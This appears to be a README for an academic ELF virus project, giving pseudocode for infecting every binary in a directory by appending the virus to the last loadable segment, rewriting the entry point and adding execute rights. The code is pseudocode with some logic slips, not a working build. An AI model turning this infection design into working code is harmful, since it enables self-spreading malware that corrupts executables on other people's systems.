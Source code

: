 # Virus Famine

This virus is coded only for academic purposes, and is:

 - Inoffensif, as it only add a write("HelloWorld")
 - Easily detectable by modern technics

# Pseudocode

## Main

First function called
easily changeable directory of interest

```c
void	main()
{
	start_virus = %rip;
	char **dir_path = "./test";

	infect_dir(dir_path, save_rip);
	bonus_function();
}
```

## infect dir

Need to manage errors of open and mmap

```c
void	infect_dir(char *dir_path, void *start_virus)
{
	dir = open_dir(dir_path);

	for file in dir:
		mem_file, file_size = mmap(file);
		if (NULL != (mem_file = infect_file(mem_file, file_size, start_virus)));
			save(file);
	return ;
}
```

## infect_file

the maestro function

```c
uint8_t	infect_file(void *file, size_t file_size, void *start_virus)
{
	// Check if file is good, and find last loadable segment
	elfphdr *phdr = find_phdr(file, file_size);
	if (phdr == NULL)
		return NULL;
	// Check if file already taken care of
	if (check_if_not_infected(start_virus, phdr + phdr->offset - VIRUS_SIZE))
		return NULL;
	// Extend file size if necessary
	file = extend_memory(file, file_size, phdr, VIRUS_SIZE);
	if (file == NULL)
		return NULL;
	// Find again the phdr
	elfphdr *phdr = find_phdr(file, file_size);
	// Inject self in file
	spot = file + (phdr->offset + phdr->size);
	memcopy(spot, start_virus, VIRUS_SIZE);
	file->e_entry = spot;
	phdr->rights += EXECUTE;
	phdr->size += VIRUS_SIZE;
	return file;
}
```

## find_phdr

Find the phdr corresponding to the segment of injection

```c
elfphdr	*find_phdr(void *file, size_t file_size)
{
	if (BAD == (MAGIC_NB || ENDIAN || 64bits))
		return NULL;
	if (PHDR_ARRAY_END < ENOUGH_SPACE)
		return NULL;
	for phdr in phdr_array:
		if last_loadable:
			best_phdr = phdr;
	return best_phdr;
}
```

## Checking if already infected

1st idea, might not be the right way

```c
uint8_t	check_if_not_infected(uint8_t *cave_self, unit8_t *cave_new)
{
	count = 0;
	for i in range(VIRUS_SIZE):
		if cave_self[i] == cave_new[i]:
			count += 1;
	if ((float)count / (float)VIRUS_SIZE > 0.9)
		return TRUE;
	return FALSE;
}
```

## Extend memory

Carefull on overflow

```c
void *extend_memory(file, file_size, phdr, VIRUS_SIZE)
{

	int space_available = file_size - (phdr->offset + phdr->size);
	int space_missing = space_available - VIRUS_SIZE;
	if space_missing < 0:
		new_file = mmap(space_missing);
		memcopy(new_file, file, file_size);
	return new_file;
}
```

## Bonus

```c
void bonus_function()
{
	whatever we want;
	will be nice to connect to a server to say hello;
	will be nice to change background image;
	will be nice to print in terminal an ascii pic of a cute kitten;
}
```
